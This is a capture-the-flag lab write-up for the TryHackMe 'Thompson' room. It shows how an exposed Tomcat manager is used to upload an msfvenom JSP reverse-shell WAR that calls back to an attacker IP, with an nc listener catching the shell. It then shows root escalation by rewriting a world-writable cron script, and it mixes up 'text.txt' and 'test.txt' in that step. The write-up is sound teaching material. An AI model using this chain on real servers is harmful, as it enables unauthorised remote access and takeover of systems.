




# Thompson

[Thompson](https://tryhackme.com/room/bsidesgtthompson) is another beginner-friendly room on TryHackMe.com based on exploitation of AJP (Apache JServ Protocol). If done right completing this room won't take more than 15 to 20 minutes as it is pretty easy.

### Initial Enumeration

The first that we must do is run an nmap scan against the machine's IP address in order to determine the various ports open on the machine.

```
┌─[tester@parrot-virtual]─[~/Downloads/thompson]
└──╼ $nmap -A 10.10.94.207
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-20 22:27 IST
Nmap scan report for 10.10.94.207
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.99 seconds
```

We can see that on port 8080 Apache Tomcat is running which suggests we can try to access it via web browser at `<ip_address>:8080`.


And there we land on the Apache Tomacat default page. We can try to access the Manager App as from there we can access Tomcat's dashboard. But when we click on that link, it asks us for username and password which we don't know.



We can try some default credentials like `admin:admin` or any other but they don't work. But when we click on the cancel button it leads us to an unauthorized access error page.



And on the same page we can find the username and password which we can use to acess the application manager.



Now, we have access to the application manager. One thing to note is that in the application manager we have an option to upload a WAR file. So, we can create a custom payload using `msfvenom`, upload it on the server and gain reverse shell to the machine. 

We can search on the internet beforehand to be sure that this method works. One such article can be found [here](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/). So, now we can move ahead and create a payload using `msfvenom`.

```
┌─[tester@parrot-virtual]─[~/Downloads/thompson]
└──╼ $msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker_IP> LPORT=4444 -f war > shell.war
Payload size: 1094 bytes
Final size of war file: 1094 bytes
```

This command basically creates a reverse shell payload with the local host IP address and local port on which it should connect, and stores it in a `war` file.

Switches used:

| Switch | Function                                                     |
| ------ | ------------------------------------------------------------ |
| -p     | Determine the payload that is to be used                     |
| -f     | Determine the output file type                               |
| LHOST  | IP where the victim machine should connect (Attacker's IP address) |
| LPORT  | Port on which the victim machine should connect (Where attacker would be listening) |

Now, we can upload this war file through the application manager.



Once uploaded, we can access this file at `<ip_address>:8080/shell`. Note that before access file start a listener on the attacker machine using the command `nc -nvlp 4444`. And as soon as the file has been access we get a reverse shell on our attacker machine:

```
┌─[tester@parrot-virtual]─[~]
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [<attacker_ip>] from (UNKNOWN) [10.10.94.207] 33530
whoami
tomcat
pwd
/
```

Now, we can move around and look for the user flag in the `/home` directory.

```
cd /home
ls -la
total 12
drwxr-xr-x  3 root root 4096 Aug 14  2019 .
drwxr-xr-x 22 root root 4096 Aug 14  2019 ..
drwxr-xr-x  4 jack jack 4096 Aug 23  2019 jack
cd jack
ls -la
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Nov 20 09:39 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts
cat user.txt
```

And there we get the user flag.

### Privilege Escalation

The next task is to obtain the root flag. Also, in user jack's directory we can see an executable file `id.sh`. We can try to check what is it function as it appears to be a bit suspicious.

```
cat id.sh
#!/bin/bash
id > test.txt
```

It appears that it read the `id` and writes it down to a file named `test.txt`. This text file is also present in jack's directory, so we can read it and get to know as what user privilege this shell script is being executed.

```
cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

The content of `text.txt` makes it clear that this script is being executed with `root` privileges. So, all we need to do is modify the content of `id.sh` to read the root flag and write it down to `test.txt`. This can be done using a simple `echo` command:

```
echo "
#!/bin/bash
cat /root/root.txt > text.txt" > id.sh
cat id.sh

#!/bin/bash
cat /root/root.txt > text.txt
```

Now, as this is being run by a cronjob we must wait for some time and read the `test.txt` file to get out root flag.


### Reference Links

1. TryHackMe-Thompson: https://tryhackme.com/room/bsidesgtthompson
2. Exploiting Tomcat Manager: https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/